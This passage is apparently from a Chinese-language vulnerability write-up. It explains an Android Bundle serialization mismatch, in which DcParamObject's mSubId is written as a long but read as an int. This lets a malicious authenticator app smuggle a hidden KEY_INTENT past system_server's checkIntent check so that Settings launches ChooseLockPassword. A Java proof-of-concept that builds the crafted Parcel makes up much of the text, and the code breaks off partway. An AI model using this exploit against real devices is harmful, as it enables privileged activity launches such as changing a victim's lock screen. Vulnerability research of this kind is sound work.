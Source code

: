 



在 Autherticator App 中构造恶意 Bundle，携带三个键值对。第一个键值对携带一个 DcParamObject 对象；第二个键值对的键的 16 进制表示为 0x06，长度为 1，值的类型为 13 代表 ByteArray，然后将恶意 KEY_INTENT 的内容放在 ByteArray 中；接下来，再随便放置一个键值对。



那么在`system_server`发生的第一次反序列化中，生成 DcParamObject 对象，mSubId 通过 readInt 读入为 1。后面两个键值对都不是 KEY_INTENT，因此可以通过 checkIntent 检查。



然后，第二次序列化时`system_server`通过 writeLong 将 mSubId 写入 Bundle，多出四个字节为 0x0000 0000 0000 0001，后续内容不变。



最后，`Settings`反序列化读入 Bundle，由于读入 mSubID 仍然为 readInt，因此只读到 0x0000 0001 就认为读 DcParamObject 完毕。接下来开始读第二个键值对，把多出来的四个字节 0x0000 0000 连同紧接着的 1，认为是第二个键值对的键为 null，然后 6 作为类型参数被读入，认为是 long，于是后面把 13 和接下来 ByteArray length 的 8 字节作为第二个键值对的值。最终，恶意 KEY_INTENT 显现出来作为第三个键值对！



#### POC



```
Bundle evilBundle = new Bundle();
        Parcel bndlData = Parcel.obtain();
        Parcel pcelData = Parcel.obtain();

        // Manipulate the raw data of bundle Parcel
        // Now we replace this right Parcel data to evil Parcel data
        pcelData.writeInt(3); // number of elements in ArrayMap
        /*****************************************/
        // mismatched object
        pcelData.writeString("mismatch");
        pcelData.writeInt(4); // VAL_PACELABLE
        pcelData.writeString("com.android.internal.telephony.DcParamObject"); // name of Class Loader
        pcelData.writeInt(1);//mSubId

        pcelData.writeInt(1);
        pcelData.writeInt(6);
        pcelData.writeInt(13);
        //pcelData.writeInt(0x144); //length of KEY_INTENT:evilIntent
        pcelData.writeInt(-1); // dummy, will hold the length
        int keyIntentStartPos = pcelData.dataPosition();
        // Evil object hide in ByteArray
        pcelData.writeString(AccountManager.KEY_INTENT);
        pcelData.writeInt(4);
        pcelData.writeString("android.content.Intent");// name of Class Loader
        pcelData.writeString(Intent.ACTION_RUN); // Intent Action
        Uri.writeToParcel(pcelData, null); // Uri is null
        pcelData.writeString(null); // mType is null
        pcelData.writeInt(0x10000000); // Flags
        pcelData.writeString(null); // mPackage is null
        pcelData.writeString("com.android.settings");
        pcelData.writeString("com.android.settings.password.ChooseLockPassword");
        pcelData.writeInt(0); //mSourceBounds = null
        pcelData.writeInt(0); // mCategories = null
        pcelData.writeInt(0); // mSelector = null
        pcelData.writeInt(0); // mClipData = null
        pcelData.writeInt(-2); // mContentUserHint
        pcelData.writeBundle(null);

        int keyIntentEndPos = pcelData.dataPosition();
        int lengthOfKeyIntent = keyIntentEndPos - keyIntentStartPos;
        pcelData.setDataPosition(keyIntentStartPos - 4);  // backpatch length of KEY_INTENT
        pcelData.writeInt(lengthOfKeyIntent);
```